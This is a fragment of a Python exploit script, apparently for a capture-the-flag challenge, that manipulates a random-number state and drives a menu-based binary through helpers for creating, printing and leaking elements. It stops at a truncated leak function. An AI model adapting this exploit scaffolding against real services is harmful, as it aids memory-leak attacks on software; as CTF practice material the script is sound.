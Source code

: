 ```py


set_state(0x18b634cf)

# 0 -> the first one was
# 1 -> had to twist it once, and the second time it came
def how_many_twists_char(w):
    i = 0

    # we want some tolerance as we may need to pad our way there
    for _ in range(16):
        next_char()
        i += 1

    while next_char() != w:
        i += 1
    
    return i

# want = bytes.fromhex("12345677")

# for w in want:
#     print(f"{how_many_twists_char(w)=:4}")

# -- Exploit goes here --

def reset():
    io.recvuntil(b"> ")
    io.sendline(b"3")

def create(kind: str, way=b"normal"):
    io.recvuntil(b"> ")
    io.sendline(b"2")
    io.recvuntil(b"what kind")
    io.sendline(kind.encode())
    if kind != "char":
        io.recvuntil(b"how to print")
        io.sendline(way)

# just return them verbatim
def print_elements():
    io.recvuntil(b"> ")
    io.sendline(b"1")

    io.recvuntil(b"is_empty:")

    data = io.recvuntil(b"1. print", drop=True).strip()
    lines = [l for l in data.split(b"\n") if l.startswith(b"i:")]

    output = []
    for i, l in enumerate(lines):
        idx, item = l.split(b" ", maxsplit=1)
        contents = item.removeprefix(b"item:")

        assert int(idx.removeprefix(b"i:")) == i
        output.append(contents)
    return output

def print_elements_leak():
    io.recvuntil(b"> ")
    io.sendline(b"1")

    dbg = io.recvuntil(b"is_empty:")
```